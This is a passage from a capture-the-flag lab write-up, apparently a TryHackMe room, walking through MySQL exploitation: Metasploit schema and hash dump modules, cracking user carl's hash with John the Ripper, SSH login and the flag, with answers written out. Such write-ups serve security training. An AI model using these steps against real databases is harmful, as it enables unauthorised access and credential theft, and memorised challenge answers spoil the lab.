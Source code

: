 Gives '5.7.29-0ubuntu0.18.04.1'

### Change the "sql" option to "show databases". how many databases are returned?
Did `set SQL show databases` and then `run`

```
[*] 10.10.52.196:3306 - Sending statement: 'show databases'...
[*] 10.10.52.196:3306 -  | information_schema |
[*] 10.10.52.196:3306 -  | mysql |
[*] 10.10.52.196:3306 -  | performance_schema |
[*] 10.10.52.196:3306 -  | sys |
```

so 4 databases


## Task 10 - Exploiting MySQL

### First, let's search for and select the "mysql_schemadump" module. What's the module's full name?
'auxiliary/scanner/mysql/mysql_schemadump'

### What's the name of the last table that gets dumped?
```
set PASSWORD password
set RHOSTS 10.10.52.196
set USERNAME root
run
```

'x$waits_global_by_latency' is the last table

### What's the module's full name?
'auxiliary/scanner/mysql/mysql_hashdump'

### What non-default user stands out to you?
```
set PASSWORD password
set RHOSTS 10.10.52.196
set USERNAME root
run
```

Got 'Saving HashString as Loot: carl:\*EA031893AA21444B170FC2162A56978B8CEECE18'

So 'carl' is a different non-standard user

### What is the user/hash combination string?
'carl:\*EA031893AA21444B170FC2162A56978B8CEECE18' is the combination

### What is the password of the user we found?
Saved it to a file called 'hash.txt' and did `john hash.txt`

Got: 'doggie'

### What's the contents of MySQL.txt
Did `ssh carl@10.10.52.196` with password 'doggie'. 

Found a file called 'MySQL.txt' and inside it was 'THM{congratulations_you_got_the_mySQL_flag}'
